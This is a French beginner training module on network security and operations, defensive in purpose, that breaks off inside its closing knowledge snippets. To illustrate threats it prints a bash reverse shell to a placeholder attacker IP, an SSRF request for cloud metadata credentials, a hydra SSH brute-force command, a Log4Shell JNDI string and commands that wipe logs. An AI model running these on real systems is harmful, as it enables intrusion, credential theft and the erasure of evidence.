



# Premières notions de sécurité et d'exploitation réseau

## Objectifs pédagogiques

À la fin de ce module, vous saurez :

- **Qualifier** une attaque ou une panne avec CIA (Confidentiality, Integrity, Availability) : qu'est-ce qui a été lu, modifié ou rendu indisponible ?
- **Distinguer** authentification, autorisation et traçabilité sur un accès d'administration, et repérer celle qui manque.
- **Écrire et tester** une règle de filtrage entrante et sortante, en vérifiant l'ordre d'évaluation et le comportement par défaut.
- **Expliquer** par quels chemins un attaquant atteint une ressource « privée », et quels contrôles coupent ces chemins.
- **Versionner** une configuration réseau avec Git, documenter un changement et comparer test, préproduction et production.

## Mise en situation

> **Scénario illustratif** : entreprise fictive de 80 postes, réseau unique en `192.168.1.0/24`. Les chiffres sont inventés pour l'exemple.

Un développeur ouvre une facture piégée. L'implant, de type beacon Cobalt Strike, s'installe sur son poste et ouvre un canal HTTPS sortant vers un serveur de commande et contrôle (C2, Command and Control). Pour le pare-feu de bordure, c'est du trafic web ordinaire.

L'attaquant lance alors, depuis ce poste, un scan du réseau local :

```bash
nmap -sV --open -p 22,23,80,443,445,3389,8080 192.168.1.0/24
```

Trois résultats suffisent à ruiner la journée :

- Un switch répond sur Telnet, avec le mot de passe constructeur.
- Un Grafana « interne » sur le port 8080 accepte `admin/admin`. Ses sources de données contiennent des identifiants de bases.
- Le serveur de sauvegardes expose un partage SMB lisible et modifiable depuis n'importe quel poste.



La défense « naïve » (un pare-feu en bordure et des adresses privées) ne couvre rien de cette chaîne :

- Le pare-feu filtre ce qui vient d'Internet. Ici, le trafic naît à l'intérieur et sort en 443, qui est autorisé.
- `192.168.x.x` est une plage non routée sur Internet. Ce n'est pas un contrôle d'accès : quiconque a un pied dans le LAN y accède.

Le reste du module démonte cette chaîne maillon par maillon.

## Surface d'attaque : ce qu'un réseau d'entreprise expose vraiment

Un identifiant CVE (Common Vulnerabilities and Exposures) désigne une vulnérabilité publique et numérotée. Les exemples ci-dessous en citent deux, mais la plupart des entrées du tableau sont des mauvaises configurations qui n'ont pas de CVE.

| Vecteur | Exposition | Impact potentiel |
|---|---|---|
| Telnet ou interface web d'un switch/routeur | Joignable depuis tout le LAN, identifiants par défaut | Lecture et modification de la configuration, redirection de trafic |
| Cisco Smart Install (TCP 4786), CVE-2018-0171 | Activé par défaut sur certains équipements, versions non corrigées | Redémarrage ou exécution de code sans authentification |
| Interface web d'administration exposée sur Internet, CVE-2023-20198 (Cisco IOS XE) | Port web du routeur joignable depuis l'extérieur | Création d'un compte privilégié, contrôle de l'équipement |
| Dashboards internes (Grafana, Jenkins, Kibana) | Pas d'authentification ou compte par défaut | Lecture de secrets, exécution de jobs |
| Partages SMB, serveur de sauvegardes | Accessibles depuis tous les postes avec les mêmes identifiants | Chiffrement ou suppression des sauvegardes |
| SNMP v1/v2c avec communauté `public` | UDP 161 | Table ARP, interfaces, parfois configuration complète |
| Fichiers de configuration et dépôts | Secrets en clair (communautés SNMP, clés pré-partagées) | Rebond vers d'autres équipements |

Le botnet Mirai (2016) a prospéré sur le même principe : une courte liste d'identifiants par défaut testée en Telnet sur des caméras et des routeurs.

> 🧠 **Concept clé** : la surface d'attaque dépend du point de départ. Elle n'est pas la même depuis Internet, depuis un poste du LAN ou avec un compte volé. Lister ses services exposés « depuis l'extérieur » ne répond qu'à une de ces questions.
{: .callout .callout-important}

## Mécanisme d'attaque : pourquoi « interne » ne veut pas dire « inaccessible »

> ⚠️ C'est le piège central du module. Un attaquant n'a pas besoin d'être sur le LAN pour atteindre une ressource privée. Il dispose de trois chemins courants.
{: .callout .callout-attention}

**1. Poste compromis, puis pivot.** Une fois l'implant en place, l'attaquant balaie le réseau (`nmap`, ou `nxc smb 192.168.1.0/24` avec NetExec). Avec un tunnel de type chisel ou ligolo-ng, il fait aussi transiter son propre navigateur par le poste infecté. Le Grafana « interne » s'ouvre alors comme s'il était sur le LAN.

**2. Capture d'identifiants sur le LAN.** Sur un réseau Windows par défaut, Responder répond aux requêtes de résolution LLMNR/NBT-NS que les postes émettent quand le DNS échoue. Il récupère des empreintes NTLMv2 qui se cassent ensuite avec hashcat. Aucune vulnérabilité logicielle n'est nécessaire.

**3. SSRF (Server-Side Request Forgery).** Une application exposée sur Internet accepte une URL en paramètre, par exemple pour générer un aperçu. L'attaquant lui demande de la récupérer, et c'est le serveur, placé à l'intérieur, qui émet la requête :

```bash
curl "https://app.example.com/preview?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/"
```

L'adresse `169.254.169.254` est le service de métadonnées des machines cloud. L'incident Capital One de 2019 reste le cas d'école de ce mécanisme.

> 🔴 **Vecteur d'attaque** : dans les trois cas, l'attaquant ne franchit aucune barrière réseau. Il hérite de la position d'une machine de confiance.
{: .callout .callout-danger}

Une adresse RFC 1918 (`10/8`, `172.16/12`, `192.168/16`) décrit où se trouve une machine, pas qui a le droit de lui parler. Un contrôle d'accès réunit trois éléments : une identité, une règle et une trace. Les sections suivantes les mettent en place.

> 💡 **Astuce** : depuis un poste utilisateur de votre laboratoire, lancez le `nmap` de la mise en situation sur votre plage. Chaque ligne qui répond est une porte qu'un attaquant verrait aussi. Ne le faites que sur un réseau qui vous appartient ou avec une autorisation écrite.
{: .callout .callout-astuce}

## CIA : la grille pour dire ce qui a été perdu

Le scénario d'ouverture touche les trois propriétés à la fois, d'où l'intérêt de les séparer.

| Propriété | Ce qui est perdu | Dans le scénario | Contrôle typique | Ce que ça coûte |
|---|---|---|---|---|
| **Confidentialité** | Lecture par quelqu'un qui n'y a pas droit | Identifiants de bases lus dans Grafana | TLS, droits par utilisateur, segmentation | Gestion des certificats, CPU |
| **Intégrité** | Modification non autorisée, ou non détectée | Configuration du switch réécrite | Comptes nommés, versioning, revue des changements | Processus de changement |
| **Disponibilité** | Service inutilisable | Sauvegardes supprimées, postes chiffrés | Redondance, sauvegardes hors ligne | Stockage, tests de restauration |

L'intégrité est la propriété la plus oubliée, parce qu'elle ne produit aucune panne visible. Une règle de pare-feu modifiée pour ouvrir un port ne coupe aucun service. Elle ne se découvre que si quelqu'un compare l'état actuel à un état de référence, ce que la section Git rend possible.

Les trois propriétés se tirent aussi dans des directions opposées. Chiffrer ajoute de la latence et des certificats à renouveler. Faciliter l'accès à distance améliore la disponibilité et élargit la surface d'attaque.

La redondance vue au module précédent protège contre la panne, pas contre l'effacement. Une réplique copie fidèlement la suppression ou le chiffrement, donc la haute disponibilité ne remplace pas une sauvegarde isolée.

> 💡 **Astuce** : pour chaque incident, posez trois questions : qu'est-ce qui a été lu ? modifié ? rendu indisponible ? Un même événement coche souvent deux ou trois cases.
{: .callout .callout-astuce}

Exercice rapide, avec les réponses :

- Un technicien ajoute par erreur une ACL qui bloque SMB : **disponibilité**.
- Un export de configuration est envoyé à un prestataire par e-mail : **confidentialité**.
- Un compte inconnu apparaît sur le switch, sans panne associée : **intégrité**.

## Authentification, autorisation, traçabilité

Prenons un accès SSH à un équipement d'administration. Trois questions distinctes se posent, et chacune peut échouer indépendamment des autres.

| Question | Mécanisme | Comment il casse |
|---|---|---|
| Qui êtes-vous ? (**authentification**) | Clé SSH, ou mot de passe plus MFA (Multi-Factor Authentication) | Mot de passe par défaut ou partagé, force brute |
| Que pouvez-vous faire ? (**autorisation**) | Rôles, niveaux de privilège, `sudo` ciblé | Tout le monde est administrateur de tout |
| Qu'avez-vous fait ? (**traçabilité**) | Comptes nommés, journaux centralisés, horloges synchronisées | Compte `admin` partagé, logs locaux effaçables |

Un compte partagé détruit la traçabilité : le journal indique que `admin` s'est connecté à 02:14, sans dire qui. Un compte nommé sans autorisation fine donne un journal lisible mais un attaquant omnipotent dès qu'il vole une identité.

> 🔴 **Vecteur d'attaque** : la force brute sur SSH est automatisée et permanente sur toute adresse publique.
{: .callout .callout-danger}

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://<HOST>
```

Une configuration `sshd` durcie coupe la voie à ce vecteur :

```text
# Avant
PasswordAuthentication yes
PermitRootLogin yes

# Après
PasswordAuthentication no
KbdInteractiveAuthentication no
PermitRootLogin no
AllowUsers <ADMIN_USER1> <ADMIN_USER2>
MaxAuthTries 3
```

```bash
sudo sshd -t && sudo systemctl reload ssh
```

Le service s'appelle `sshd` sur certaines distributions. Gardez une session ouverte pendant le rechargement pour ne pas vous enfermer dehors.

> 🔒 **Contrôle de sécurité** : sans mot de passe accepté, la force brute n'a plus rien à deviner. Le coût réel, c'est la gestion des clés : onboarding, départs, et un compte de secours (« break-glass ») conservé hors ligne.
{: .callout .callout-securite}

Les outils de blocage automatique des tentatives (fail2ban) ont un revers. Un attaquant peut volontairement échouer en boucle pour verrouiller un compte légitime. Préférez l'authentification par clé au verrouillage pur du compte.

## Modèle de menace : qui attaque, par où, pour quoi

À ce stade, quatre acteurs suffisent.

| Acteur | Point de départ | Objectif | Scénario probable |
|---|---|---|---|
| Opportuniste Internet | Scan massif (masscan, Shodan) | Tout ce qui répond avec un mot de passe par défaut | Service d'administration exposé, force brute |
| Attaquant avec un pied dans le LAN | Poste compromis par phishing | Aller vers les sauvegardes et l'annuaire | Pivot, partages ouverts, ransomware |
| Accès tiers | Identifiants volés d'un prestataire | Réseau accessible via le VPN | Compte partagé, réseau plat derrière le VPN |
| Erreur d'exploitation | Un administrateur | Aucun | Règle trop large, environnement de test laissé ouvert |

Le dernier scénario est le plus sous-estimé : la plupart des ouvertures dangereuses ne viennent pas d'un attaquant, elles viennent d'un changement mal fait.

Les actifs à protéger en priorité sont les sauvegardes, les configurations réseau, les accès d'administration et les données métier.

STRIDE (Spoofing, Tampering, Repudiation, Information disclosure, Denial of service, Elevation of privilege) est une grille de six catégories de menaces. Elle se superpose exactement aux notions de ce module :

| STRIDE | Ce qui est violé | Exemple réseau |
|---|---|---|
| Spoofing | Authentification | ARP spoofing, identifiants volés |
| Tampering | Intégrité | Modification d'une configuration ou d'une règle |
| Repudiation | Traçabilité | « Ce n'est pas moi » sur un compte partagé |
| Information disclosure | Confidentialité | SNMP `public`, Telnet capturé |
| Denial of service | Disponibilité | Saturation, suppression de sauvegardes |
| Elevation of privilege | Autorisation | Passer du réseau utilisateurs aux équipements |

## Pare-feu, ACL, trafic entrant et sortant

Une ACL (Access Control List) est une liste ordonnée de règles qui examine adresse source, adresse de destination, protocole et port, et décide d'accepter ou de refuser. Deux propriétés expliquent la plupart des erreurs :

- **Premier match gagnant.** Les règles sont évaluées dans l'ordre et l'évaluation s'arrête à la première qui correspond. Un `permit ip any any` placé en tête rend toutes les règles suivantes inutiles.
- **Refus implicite silencieux.** La plupart des équipements refusent par défaut ce qui ne correspond à aucune règle, sans le journaliser. Un `deny ip any any log` explicite en fin de liste permet de voir ce qui est bloqué.

Un filtre sans état (ACL de routeur) juge chaque paquet isolément. Un pare-feu avec suivi de connexion (stateful) autorise automatiquement les réponses à une connexion déjà acceptée.

**Entrant et sortant** se définissent par rapport à une interface ou à une zone, pas par rapport à « l'extérieur ». Une ACL appliquée en `in` sur l'interface côté utilisateurs filtre ce que les utilisateurs envoient. Se tromper de sens est une erreur de débutant fréquente.

```text
! Syntaxe Cisco IOS : varie selon constructeur et version
ip access-list extended USERS_IN
 permit tcp 10.10.20.0 0.0.0.255 host 10.10.30.10 eq 443
 permit udp 10.10.20.0 0.0.0.255 host <DNS_IP> eq 53
 deny ip any any log
!
interface <INTERFACE_UTILISATEURS>
 ip access-group USERS_IN in
```

### Pourquoi filtrer le sortant

> 🔴 **Vecteur d'attaque** : un reverse shell inverse le sens de la connexion. La cible se connecte à l'attaquant, donc le pare-feu entrant ne voit rien.
{: .callout .callout-danger}

```bash
bash -i >& /dev/tcp/<ATTACKER_IP>/443 0>&1
```

Filtrer par port ne suffit pas : 443 est ouvert partout. Il faut aussi limiter les destinations (proxy ou liste de serveurs). Le DNS est l'autre échappatoire. Des outils comme iodine ou dnscat2 encapsulent des données dans des requêtes DNS. Ces requêtes traversent le résolveur interne par récursion jusqu'au domaine de l'attaquant : imposer ce résolveur ne suffit donc pas, il faut aussi inspecter ou filtrer les requêtes DNS.

### Configuration sécurisée : un serveur en `drop` par défaut

```text
# Avant : aucun filtrage
# Après : /etc/nftables.conf (extrait)
table inet filter {
  chain input {
    type filter hook input priority 0; policy drop;
    ct state established,related accept
    iif lo accept
    ip saddr <ADMIN_SUBNET> tcp dport 22 accept
    tcp dport 443 accept
  }
  chain output {
    type filter hook output priority 0; policy drop;
    ct state established,related accept
    oif lo accept
    ip daddr <DNS_IP> udp dport 53 accept
    ip daddr <PROXY_IP> tcp dport 3128 accept
  }
}
```

> ⚠️ **Erreur fréquente** : appliquer `policy drop` en SSH sans règle SSH correcte coupe votre propre session. La correction est un retour arrière programmé avant d'appliquer. Le fichier de sauvegarde doit commencer par `flush ruleset`, sinon `nft -f` fusionne avec le ruleset actif au lieu de le remplacer :
{: .callout .callout-attention}

```bash
sudo systemd-run --on-active=5m --unit=fw-rollback nft -f <BACKUP_RULESET>
sudo nft -f /etc/nftables.conf
sudo systemctl stop fw-rollback.timer   # une fois la connexion validée
```

Le filtrage sortant coûte cher en maintenance : mises à jour, NTP et agents de supervision cassent tant que les flux ne sont pas inventoriés. Commencez par journaliser (`log`) avant de bloquer.

### Vérifier le résultat

`nmap` distingue trois états, et la différence révèle la politique appliquée :

- `open` : un service répond.
- `closed` : la machine répond par un RST, donc un rejet explicite ou un port sans service.
- `filtered` : aucune réponse (un `drop`) ou un ICMP unreachable (un `reject` sans `tcp reset`, comportement par défaut).

```bash
nmap -Pn -p 22,443 <HOST>
```

## Segmentation et protection des accès administratifs

La segmentation limite le rayon d'explosion. Si le poste du développeur tombe, l'attaquant ne doit atteindre ni les équipements ni les sauvegardes. Il lui faut d'abord repasser par un point contrôlé.



L'administration passe par un point unique : le bastion (ou « jump host »). Il centralise l'authentification forte et les journaux de session. Les interfaces de gestion des équipements ne sont joignables que depuis lui.

Quelques réglages durcissent l'accès sur un équipement réseau. Ils varient selon le constructeur et la version :

- Désactiver Telnet et HTTP, ne garder que SSH et HTTPS.
- Remplacer les communautés SNMP v1/v2c par SNMPv3, ou au minimum restreindre les sources autorisées.
- Limiter les lignes d'accès à distance au sous-réseau d'administration.

```text
! Syntaxe Cisco IOS : varie selon constructeur et version
ip access-list standard ADMIN_ONLY
 permit <ADMIN_SUBNET> <WILDCARD>
line vty 0 15
 access-class ADMIN_ONLY in
 transport input ssh
```

> 🔴 **Vecteur d'attaque** : un équipement qui accepte Telnet envoie identifiants et commandes en clair. Sur un segment partagé, une simple capture suffit :
{: .callout .callout-danger}

```bash
tcpdump -A -i <INTERFACE> 'tcp port 23'
```

Le même constat vaut pour SNMP :

```bash
snmpwalk -v2c -c public <SWITCH_IP> system
```

Si cette commande répond, la communauté par défaut est active.

Le coût est réel. Un bastion devient un point unique de défaillance et exige un compte de secours testé. La segmentation casse aussi les découvertes basées sur la diffusion (imprimantes, mDNS), ce qui gêne un peu les utilisateurs et gêne beaucoup Responder.

## Logs, métriques, traces : l'angle sécurité

Le module précédent a posé la supervision de disponibilité. Ici, on se demande si ces données permettent de reconstituer qui a fait quoi.

| Type | Question | Exemple sécurité | Limite |
|---|---|---|---|
| **Logs** | Que s'est-il passé, et avec quelle identité ? | `Failed password for invalid user admin from 203.0.113.5` | Volumineux, effaçables, contiennent parfois des secrets |
| **Métriques** | Le volume est-il anormal ? | Échecs de connexion par minute, octets sortants par hôte | Agrégées : on perd le détail |
| **Traces** | Quel chemin a pris une requête entre services ? | Une requête web qui déclenche un appel vers un service interne | Rares sur les équipements réseau, utiles côté applications |

Les logs sont eux-mêmes une surface d'attaque, dans les deux sens :

- **Entrée contrôlée par l'attaquant.** Log4Shell (CVE-2021-44228) en est le cas d'école : une chaîne `${jndi:ldap://<HOST>/a}` placée dans un en-tête HTTP, une fois journalisée par une version vulnérable de Log4j, déclenchait une exécution distante.
- **Cible de l'effacement.** Après compromission, un attaquant efface les traces locales avec `> /var/log/auth.log` sous Linux, ou `wevtutil cl Security` sous Windows. Seule une copie envoyée ailleurs survit.

```bash
# Compter les échecs SSH par adresse source
grep "Failed password" /var/log/auth.log | awk '{print $(NF-3)}' | sort | uniq -c | sort -rn | head
```

Un IoC (Indicator of Compromise) est une trace observable qui suggère une compromission. Quelques-uns à surveiller en premier :

| Signal | Lecture probable | Premier réflexe |
|---|---|---|
| Nombreux échecs SSH puis un succès depuis la même source | Force brute aboutie | Isoler le compte, lire la session |
| Modification de configuration hors fenêtre de changement | Intégrité compromise ou changement non documenté | Comparer au dépôt Git |
| Connexion sortante d'un serveur vers Internet | Reverse shell ou exfiltration | Vérifier le processus et la destination |
| Nouveau compte administrateur | Persistance | Vérifier le ticket correspondant |
| Journaux qui s'arrêtent brutalement | Effacement ou agent désactivé | Consulter la copie distante |

> 🔒 **Contrôle de sécurité** : envoyez les logs vers une machine distincte, avec un accès en écriture seule pour la source. Avec rsyslog, une ligne suffit :
{: .callout .callout-securite}

```text
*.* @@<LOG_HOST>:514
```

`@@` signifie TCP, et le flux n'est pas chiffré sans configuration TLS supplémentaire. Synchronisez aussi les horloges, faute de quoi l'enchaînement chronologique de plusieurs équipements devient impossible à reconstituer.

## Gérer les erreurs : détecter, qualifier, corriger, documenter

Un mardi à 14 h, les utilisateurs perdent l'accès au serveur de fichiers. Les compteurs d'une ACL montrent que la règle `deny` ajoutée à midi s'incrémente vite.

- **Détecter** : l'alerte vient des utilisateurs ou d'une métrique. Elle a moins de valeur si elle arrive plus tard que le changement.
- **Qualifier** : est-ce une attaque, une erreur de changement ou une panne matérielle ? Quelle propriété CIA est touchée (ici la disponibilité) ? Combien de personnes sont affectées ? Quelqu'un a-t-il ouvert une règle temporaire en attendant, ce qui toucherait la confidentialité ?
- **Corriger** : la correction immédiate rétablit le service (retour au commit précédent). La correction de fond traite la cause (ordre des règles, flux mal inventorié).
- **Documenter** : ce qui n'est pas écrit sera refait. Un ticket minimal suffit :

```text
Date/heure : <DATE> 14:05 — Détecté par : retour utilisateurs
Impact : accès SMB bloqué pour la zone utilisateurs (disponibilité)
Cause : ACL USERS_IN, règle 20 trop large (changement <CHG_ID>)
Correction immédiate : retour au commit précédent
Correction de fond : réécrire la règle avec le port précis, tester en préprod
Suivi : revue de la règle le <DATE>
```

> ⚠️ **Erreur fréquente** : corriger une panne en ouvrant tout (`permit ip any any`) « pour voir ». Le service revient, la protection a disparu, et personne ne se souvient de refermer. Corrigez en ciblant le flux réellement bloqué, jamais en désactivant le contrôle.
{: .callout .callout-attention}

## Git, sauvegarde des configurations et documentation des changements

Un attaquant qui obtient les droits d'administration modifie souvent la configuration : nouveau compte, ACL assouplie, redirection. Sans état de référence, ces changements passent inaperçus. Git fournit cette référence à peu de frais.

```bash
mkdir -p ~/net-configs/configs && cd ~/net-configs && git init
sudo nft list ruleset > configs/fw1.nft
git add configs/fw1.nft
git commit -m "fw1: état initial"
```

Pour un équipement réseau, remplacez l'export par la commande propre au constructeur. Des outils comme Oxidized ou RANCID automatisent la collecte. Lancé chaque nuit, un export suivi de `git diff --stat` produit un signal : tout écart non expliqué par un ticket est un indicateur à examiner.

```bash
git log -p --follow -- configs/fw1.nft
```

Un message de commit utile contient le quoi, le pourquoi et le retour arrière :

```text
fw1: autorise tcp/443 depuis 10.10.20.0/24 vers 10.10.30.10 (CHG-142)
Pourquoi : accès à l'application métier
Retour arrière : git revert <COMMIT>
Revue : <DATE>
```

Les configurations contiennent des secrets : hachages de mots de passe, communautés SNMP, clés pré-partagées. Trois règles :

- Inspectez avant de committer avec `grep -nE "password|secret|community|key" configs/*`, ou automatisez avec gitleaks.
- `git rm` n'efface rien de l'historique. Un secret déjà committé doit être renouvelé, pas seulement supprimé.
- Hébergez le dépôt sur une machine distincte, avec des droits d'écriture limités.

Git garde l'historique des configurations mais ne remplace pas une sauvegarde. Gardez une copie hors ligne ou immuable, sur un compte différent de celui qui administre la production, et testez régulièrement la restauration.

## Test, préproduction et production

Les environnements de test sont rarement durcis, et les attaquants le savent : débogage activé, comptes par défaut, données réelles copiées « pour tester ». Un test oublié sur le LAN est un Grafana `admin/admin` de plus.



| Paramètre | Test | Préproduction | Production |
|---|---|---|---|
| Données | Fictives | Anonymisées | Réelles |
| Identifiants et secrets | Propres au test | Propres à la préprod | Propres, avec rotation |
| Exposition | LAN de laboratoire, jamais Internet | Identique à la prod, accès restreint | Selon le besoin |
| Niveau de log | `debug` | `info` | `info` plus centralisation |
| Règles de pare-feu | Même structure, autres plages | Identiques à la prod | Référence |

Le principe : les différences entre environnements doivent être des variables (adresses, noms, plages), pas des surprises. Une comparaison mécanique révèle les écarts :

```bash
diff -u configs/preprod/fw.nft configs/prod/fw.nft
```

Une préproduction coûte presque autant qu'une production. Le compromis habituel est de garder la topologie et les règles identiques et de réduire seulement le dimensionnement. Des secrets partagés entre environnements annulent l'intérêt de les séparer : un test compromis devient une porte vers la prod.

## Tests de sécurité : cinq vérifications à rejouer

Ce qui n'est pas testé reste une intention. Ces contrôles se rejouent après chaque changement, en laboratoire ou avec autorisation écrite.

| Contrôle | Commande | Résultat attendu |
|---|---|---|
| Services exposés | `nmap -sV --open <HOST>` | Seuls les services prévus |
| Telnet/HTTP éteints | `nmap -p 23,80 <SWITCH_IP>` | `closed` ou `filtered` |
| Sortie bloquée | `curl -m 5 -sS -o /dev/null -w "%{http_code}\n" https://example.com` depuis un serveur | Échec de connexion (erreur immédiate avec un `drop` local, timeout si le blocage est en amont), code `000` |
| SSH sans mot de passe | `ssh -o PreferredAuthentications=password -o PubkeyAuthentication=no <USER>@<HOST>` | `Permission denied (publickey)` |
| Dérive de configuration | `git diff --stat` après export | Vide, sinon chaque ligne doit avoir un ticket |

## Cas réel en entreprise (scénario illustratif)

> **Scénario illustratif** : entreprise de logistique fictive de 200 salariés. Les durées et chiffres sont inventés.

Un vendredi à 17 h, un administrateur ouvre temporairement SSH depuis n'importe quelle adresse sur le pare-feu de bordure, pour permettre une intervention d'un prestataire. Aucun ticket, aucune échéance de la règle.

| Moment | Événement | Ce qui aurait changé la suite |
|---|---|---|
| Vendredi, 17 h | Règle `permit tcp any any eq 22` ajoutée | Un ticket avec date d'expiration |
| Vendredi, 21 h | Premières tentatives de force brute (autour de 10 000 par heure) | Logs distants avec alerte sur le volume |
| Samedi | Connexion réussie sur un compte `support` au mot de passe saisonnier | Authentification par clé, compte nommé |
| Samedi | Création d'une règle de redirection vers un serveur externe | Une alerte sur le diff de l'export nocturne, au lieu d'une lecture le lundi |
| Lundi, 9 h | Détection par `git diff` : une règle inexpliquée | Le contrôle a fonctionné, trop tard pour la confidentialité |

Chaque défaut est banal, et c'est leur combinaison qui ouvre la voie. Le contrôle qui a fonctionné est le moins glamour : la comparaison avec un état de référence. Avec l'authentification par clé, la règle temporaire datée et l'alerte sur le volume de tentatives, l'attaque aurait échoué ou été vue le soir même.

## Erreurs fréquentes

| Configuration dangereuse | Conséquence | Correction et détection |
|---|---|---|
| `permit ip any any` en tête d'ACL | Les règles suivantes ne sont jamais évaluées | Réordonner. Vérifier les compteurs avec `show access-lists` |
| Telnet ou HTTP pour l'administration | Identifiants lisibles à la capture | SSH et HTTPS. Contrôler avec `nmap -p 23,80` |
| Compte `admin` partagé | Impossible de savoir qui a agi | Comptes nommés, journalisation centralisée |
| Logs uniquement en local | Effacés après compromission | Envoi vers un serveur distant |
| Secrets committés dans Git | Restent dans l'historique | Renouveler le secret. Détecter avec gitleaks |
| SNMP `public` | Lecture de la config réseau | SNMPv3. Contrôler avec `snmpwalk` |
| Mêmes secrets en test et en prod | Un test compromis ouvre la prod | Secrets distincts par environnement |
| Règle temporaire sans échéance | Ouverture permanente oubliée | Date de revue dans le commit et le ticket |

## Résumé

Une ressource privée n'est pas protégée : un poste compromis, un pivot ou une SSRF lui donnent accès sans franchir le pare-feu de bordure. CIA qualifie ce qui est perdu, et authentification, autorisation et traçabilité qualifient comment l'accès est contrôlé. Les contrôles de base sont un filtrage entrant et sortant en refus par défaut, une segmentation avec un accès d'administration unique, des logs envoyés hors de la machine et des configurations versionnées. Les environnements de test, de préproduction et de production se comparent mécaniquement, avec des secrets distincts. Restent à surveiller les règles temporaires oubliées, les écarts de configuration non expliqués et les services de test laissés en ligne.

<!-- snippet
id: netsec_cia_classifier_incident
type: concept
tech: network-security
level: beginner
importance: high
format: knowledge
tags: cia,incident,qualification
title: Qualifier un incident avec CIA
content: Pour chaque incident, poser trois questions : qu'est-ce qui a été lu (confidentialité), modifié (intégrité), rendu indisponible (disponibilité) ? Un ransomware touche la disponibilité, une exfiltration la confidentialité, une règle de pare-feu changée en silence l'intégrité. Un même incident coche souvent plusieurs cases.
description: Classer un incident selon les trois propriétés CIA évite de ne traiter que la panne visible et d'ignorer la lecture ou la modification silencieuse.
-->

<!-- snippet
id: netsec_prive_nest_pas_inaccessible
type: concept
tech: network-security
level: beginner
importance: high
format: knowledge
tags: pivot,ssrf,reseau-prive
title: Privé ne veut pas dire inaccessible
content: Une adresse RFC 1918 décrit un emplacement, pas un droit d'accès. Un attaquant l'atteint par trois chemins : poste compromis qui scanne le LAN (nmap, NetExec), tunnel de pivot (chisel, ligolo-ng) ou SSRF qui fait émettre la requête par un serveur interne. Seuls l'authentification, le filtrage par source et la segmentation protègent.
description: Poste compromis, pivot et SSRF donnent accès aux ressources internes sans franchir le pare-feu de bordure.
-->

<!-- snippet
id: netsec_nmap_scan_interne
type: command
tech: network-security
level: beginner
importance: medium
format: knowledge
tags: nmap,scan,surface-attaque
title: Cartographier ce qu'un poste du LAN voit
context: À lancer depuis un poste utilisateur, uniquement sur votre laboratoire ou avec autorisation écrite
command: nmap -sV --open -p 22,23,80,443,445,3389,8080 <SUBNET>
example: nmap -sV --open -p 22,23,80,443,445,3389,8080 192.168.56.0/24
description: Liste les services accessibles depuis un poste utilisateur, donc ce qu'un attaquant en position interne verrait immédiatement.
-->

<!-- snippet
id: netsec_ssh_verifier_durcissement
type: command
tech: network-security
level: beginner
importance: medium
format: knowledge
tags: ssh,durcissement,authentification
title: Vérifier la configuration SSH effective
context: Sur le serveur, la commande lit la configuration réellement appliquée, pas seulement le fichier
command: sudo sshd -T | grep -E "passwordauthentication|kbdinteractiveauthentication|permitrootlogin|allowusers"
description: Affiche les valeurs effectives de sshd. Attendu : passwordauthentication no, kbdinteractiveauthentication no, permitrootlogin no, allowusers restreint aux administrateurs.
-->

<!-- snippet
id: netsec_nftables_drop_lockout
type: warning
tech: network-security
level: beginner
importance: high
format: knowledge
tags: nftables,pare-feu,ssh
title: Policy drop appliquée en SSH sans retour arrière
content: Appliquer policy drop sur la chaîne input sans règle SSH correcte coupe votre session et vous bloque hors du serveur. Correction : programmer un retour arrière avant d'appliquer, par exemple systemd-run --on-active=5m --unit=fw-rollback nft -f <BACKUP_RULESET> (fichier commençant par flush ruleset, sinon nft -f fusionne au lieu de restaurer), puis arrêter fw-rollback.timer une fois la connexion validée.
description: Un retour arrière programmé de quelques minutes évite l'enfermement lors d'un changement de pare-feu distant.
-->

<!-- snippet
id: netsec_egress_reverse_shell
type: concept
tech: network-security
level: beginner
importance: high
format: knowledge
tags: pare-feu,sortant,reverse-shell
title: Pourquoi filtrer aussi le trafic sortant
content: Un reverse shell (bash -i >& /dev/tcp/<ATTACKER_IP>/443 0>&1) fait connecter la cible vers l'attaquant, donc le filtrage entrant ne voit rien. Filtrer par port ne suffit pas car 443 est ouvert : restreindre les destinations (proxy, liste de serveurs) et n'autoriser le DNS que vers le résolveur interne. Les tunnels iodine ou dnscat2 traversent ce résolveur par récursion : il faut aussi inspecter ou filtrer les requêtes DNS.
description: Le filtrage sortant par destination, pas seulement par port, coupe les reverse shells ; les tunnels DNS exigent en plus une inspection des requêtes.
-->

<!-- snippet
id: netsec_acl_premier_match
type: warning
tech: network-security
level: beginner
importance: high
format: knowledge
tags: acl,pare-feu,ordre-regles
title: ACL : permit any any placé trop tôt
